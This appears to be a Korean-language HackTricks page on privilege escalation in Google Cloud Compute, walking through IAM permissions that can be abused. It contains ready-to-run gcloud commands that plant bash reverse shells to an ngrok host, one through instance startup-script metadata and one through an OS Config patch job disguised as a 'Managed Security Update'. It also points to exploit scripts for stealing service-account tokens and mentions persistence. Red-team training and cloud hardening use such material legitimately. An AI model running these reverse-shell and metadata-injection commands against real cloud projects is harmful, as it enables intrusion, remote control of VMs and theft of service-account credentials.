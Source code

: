 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP에서 Compute 및 VPC(네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격(새 사용자 및 SSH 키 추가 등)을 수행하려면 **인스턴스에 연결된 SA에 대해 `actAs` 권한이 필요합니다**, SA가 이미 연결되어 있더라도!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

이 권한을 사용하면 **인스턴스**의 **메타데이터** 정보를 **수정**하고 **사용자의 인증된 키**를 변경하거나 **sudo** 권한이 있는 **새 사용자**를 **생성**할 수 있습니다. 따라서 SSH를 통해 모든 VM 인스턴스에 접속하고 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* GCP 서비스 계정은 기본적으로 VM 인스턴스에서 **매우 제한된 범위**를 가집니다.
* 로그인하려면 **SSH** 서버에 **연락할 수 있어야** 합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

새 시작 스크립트를 추가하고 인스턴스를 재부팅하여 이 공격을 수행할 수도 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 특정 인스턴스에 부여합니다. **이전 섹션과 동일한 취약점과 제한 사항이 적용됩니다**.

### `compute.instances.setIamPolicy`

이 종류의 권한은 **이전 권한으로 역할을 부여받을 수 있게 해주며**, 이를 악용하여 권한을 상승시킬 수 있습니다.

### **`compute.instances.osLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**은 없습니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**을 가집니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**서비스 계정이 할당된 가상 머신을 생성하고 메타데이터에 접근하여 서비스 계정의 토큰을 훔치는 것이 가능합니다**. 

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이는 환경 내에서 수평 이동을 가능하게 하고 프로젝트 내 모든 컴퓨트 인스턴스에서 코드 실행을 얻을 수 있게 해줍니다.

현재 **인스턴스에 연결된 SA에 대해 `actAs` 권한이 필요하지 않습니다**.

수동으로 이를 악용하려면 [**패치 작업**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **또는** [**배포**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**를 생성해야 합니다.**\
패치 작업을 실행하려면: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

패치 배포를 배포하려면:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy)는 과거에 이 잘못된 구성의 취약점을 이용하는 데 사용될 수 있었습니다 (하지만 지금은 작동하지 않습니다).

**공격자는 이를 지속성을 위해 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

**컴퓨트 이미지에 대한 추가 권한을 부여하세요.**

### `compute.snapshots.setIamPolicy`

**디스크 스냅샷에 대한 추가 권한을 부여하세요.**

### `compute.disks.setIamPolicy`

**디스크에 대한 추가 권한을 부여하세요.**

### 접근 범위 우회

이 링크를 따라가면 [**접근 범위를 우회하기 위한 아이디어**](../)를 찾을 수 있습니다.

### GCP 컴퓨트 인스턴스에서의 로컬 권한 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고 문헌

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

